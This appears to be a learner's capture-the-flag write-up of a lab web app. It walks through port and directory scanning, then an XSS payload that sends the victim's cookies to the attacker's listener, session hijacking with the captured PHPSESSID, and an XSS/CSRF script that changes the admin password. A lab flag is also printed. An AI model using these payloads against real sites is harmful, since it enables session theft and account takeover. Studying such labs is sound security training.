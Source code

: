 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Whats Your Name?
**IP** : 10.10.219.254
**Objectives :** Get the accessing the moderator account flag and the admin panel flag
**OS :** ?

##### **Conclusion**
**Time :** 1h51
	**Start :** 25.03.2025 18:55
	**Break at/to :** 25.03.2025 19:14 / 25.03.2025 20:04
	**Finish :** 25.03.2025 21:36
**Satisfaction :**  0/10 Nothing was working and I use medium but again nothing was working.
### 1. **Reconnaissance

First #nmap scan

```BASH
map -A -p- -v 10.10.219.254
```


Output :

```BASH
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

It's a web app.

We will analyse the web app with #burpsuite 

On the port 80 we have this sitemap and we have the possibilitie to pre-register.
![[Pasted image 20250325190405.png]]

We can try to register.
One we register we have a login page but when we want to login it's say "User not verified" but we also have this :
![[Pasted image 20250325191031.png]]

But the subdomain doesn't work.

When we enter admin instead of Bobinette it's said "Invalid email or password".

We find some pages with #gobuster 

Output :

```BASH
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 1797]
/login.php            (Status: 200) [Size: 1785]
/register.php         (Status: 200) [Size: 2188]
/admin.php            (Status: 403) [Size: 0]
/upload.php           (Status: 403) [Size: 0]
/logout.php           (Status: 200) [Size: 154]
/mod.php              (Status: 403) [Size: 0]
/dashboard.php        (Status: 403) [Size: 0]
```



On the port 8081 we have nothin execpt a message who let know us that there is a login.php page.

![[Pasted image 20250325190550.png]]

We find some pages with #gobuster 

Output :

```BASH
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/admin.py             (Status: 200) [Size: 5537]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]
```

## 2. **Weaponization

```JS
<script>  
var img = new Image();  
img.src = 'http://10.10.235.199:4444/stealcookies?'+ document.cookie;  
</script>
```

## 3. **Delivery

![[Pasted image 20250325203616.png]]

We enter this payloads for see if we can steal a user cookie. With an #XSS

## 4. **Exploitation

With our exploit with the #XSS doesn't work.
But after a few second a PHPSESSID just appear.

```BASH
root@ip-10-10-235-199:~# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.10.53.234 - - [25/Mar/2025 19:38:03] code 404, message File not found
10.10.53.234 - - [25/Mar/2025 19:38:03] "GET /stealcookies?PHPSESSID=16qkgn0k0sehun9gjmsiiedthj HTTP/1.1" 404 -
```

And by changing ou PHPSESSID and go to `dashboard.php` it's show this :
![[Pasted image 20250325204238.png]]

On the port 8081 if we also change the PHPSESSID we can have the first flag :
![[Pasted image 20250325205110.png]]

```FLAG
ModP@wnEd
```


On the `chat.php` page we can send an #XSS and it's working. So we send the same payload and we got an PHPSESSID but it's change nothing. But we know one thing, i'ts the admin bot and he probabely open the message one day. So we send the payload of CSRF task7 to the bot :

```JS
<script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', "http" + "://login.worldwap.thm/change_password.php", true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&new_password=password123');
    </script>
```

So now we juste need to logout and log as admin with `admin:password123`
But I don't know why it's doesn't work. So I remember that we have a admin.py file. And It's was maybe an error of THM but there is the admin password:
![[Pasted image 20250325212939.png]]

After a lot of try nothing was working I don't know why...
## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

...